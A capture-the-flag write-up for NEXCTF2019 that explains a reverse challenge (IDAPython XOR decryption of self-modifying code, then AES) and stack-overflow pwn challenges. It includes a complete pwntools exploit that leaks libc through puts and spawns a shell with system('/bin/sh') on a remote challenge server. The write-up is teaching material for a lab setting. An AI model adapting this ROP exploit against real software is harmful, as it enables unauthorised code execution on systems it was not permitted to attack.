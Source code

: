# NEXCTF2019
## Preface

This is the first time that our students of grade 17 hold CTF.  The design of challenges fully considers the progressive step and takes care of the freshmen of grade 19. Finally, I hope you can get something from NEXCTF2019, and I hope this can arouse your interest in learning CTF. We NEX is a CTF team in Northeastern University. Forget to say, the ranking in CTF is not important. We sincerely hope that you can improve yourself through one competition after another. As a team of ideological exchange, we sincerely welcome you to come at any time.

## The author's complaint

Before the ninth week,  the week of exam. As a pwn and reverse player in the NEX team, I have the unavoidable responsibility to give this writeup. So, I am forced working hard to write the writeup of binary(Pwn, Reverse) challenges.

I really hope you can learn technology after reading this writeup. There are codes to solve the challenges, but I strongly recommend that you do not use it directly, but instead try it by yourself step by step.

## Reverse

There are three reverse challenges in this CTF. Actually, the amount of people who solve reverse challenges is far below my expectation. What a disappointment it is. Below is writeup of challeng "Re3".

Using IDA to open this program, we easily found that this program is very simple:

![](./re3/1.png)

First receive a string of length 39. Then, for the function `sub_40080F`, performing xor with value `0x99`. This technology is called SMC (Self Modify Code), which changes its code at runtime.

When cracker open the function `sub_40080F`, he'll quickly find that this function is con't readable.

At this point, there are two solutions:

- Debug this ELF executable, and make a break point, analyze the function in memory.
- Use IDAPython to decrypt manually.

First solution, you should configure IDA remote debugging environment, that's easily, any question, baidu or goolge it.

Second solution, It's convenient for you to get starting with IDAPython, docs: https://www.hex-rays.com/products/ida/support/idapython_docs/. Note that idatython failed to run, It may be the wrong configuration of the python environment of your computer.

```python
start = 0x40080F
end = 0x04008A8
ads = start
while ads <= end:
	t = get_byte(ads)
	patch_byte(t^0x99)
	ads += 1
print "OK"
```

After runing this IDAPython, you'll find function sub_400B0F shows below, note that pressing 'U' to undefine, and pressing 'P' to define procdure (function). If you didn't do this, you may not succeed

![](./re3/2.png)



![](./re3/3.png)

Here I recommend you use the findcrypt plug-in of ida, will soon find this is AES algorithm.

```c
AES_init_ctx(&ctx, key);
AES_ECB_decrypt(&ctx, vdata);
AES_ECB_decrypt(&ctx, vdata+0x10);
```

So the problem was solved immediately.

```python
In [8]: from Crypto.Cipher import AES

In [9]: key = b"1111111111111111"

In [10]: cipher = b"\xE7\x5B\x8A\xCA\x42\x27\x46\x41\xE8\x0A\xD9\x5A\x9A\x7F\x2E\x11\x53\xBB\xCB\xDA\xE9\x98\xA0\xC3\xA2\x14\x2E\x3B\x26\x5E\x33\x97"

In [11]: aes = AES.new(key, AES.MODE_ECB)

In [12]: m = aes.decrypt(cipher)

In [13]: print m
flag{i_th1nk_reverse_1n_CTFisok}

```

## Pwn1_easystack

The original purpose of this challenge is to let you know the ROP technology in stack overflow exploitation.

Any principle about stack overflow, plz reference liveoverflow's binary hacking video: https://www.bilibili.com/video/av18860370

Here,  Opening this challenge in IDA, there is stack buffer overflow in function `vuln`, it read up to 0x100 len data to buf, which size is 0x20: 

![](./pwn1_easystack/1.png)

Using pwntools' checksec, canary protection is off.

![](./pwn1_easystack/2.png)

The idea of exploit is as follows:

- ROP to puts@plt(puts@got), leak address of puts in libc;
- ROP to libc, execute system("/bin/sh");

exploit.py

```python
from pwn import *
# io = process("./pwn1")
io = remote("handsomedog.top", 10001)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./pwn")
context.arch = elf.arch
pop_rdi = 0x0000000000400773
payload = "A"*0x20 + "B"*8 + flat(
    [
        pop_rdi, elf.got["puts"], elf.plt["puts"], 0x0400666
    ]
)
io.sendafter(": \n", payload)
libc.address = u64(io.recvline().strip().ljust(8, "\x00"))-libc.sym["puts"]
success("libc: 0x%x"%libc.address)
payload = "A"*0x20 + "B"*8 + flat(
    [
        pop_rdi, next(libc.search("/bin/sh")), libc.sym["system"]
    ]
)
io.send(payload)
io.interactive()
```

![](./pwn1_easystack/3.png)

## Pwn2_easystack_revenge

Different with challenge `pwn1_easystack`, this program can only overflow 16 bytes, which means we can't do ROP on the stack. However, there is a tecnolgy called stack migration, use gadget `leave, ret;` make `esp` pointer to another place where we could control easily. In this challenge, we could use this to make stack lays on `.bss` segment, then do ROP like `pwn1_easystack`.
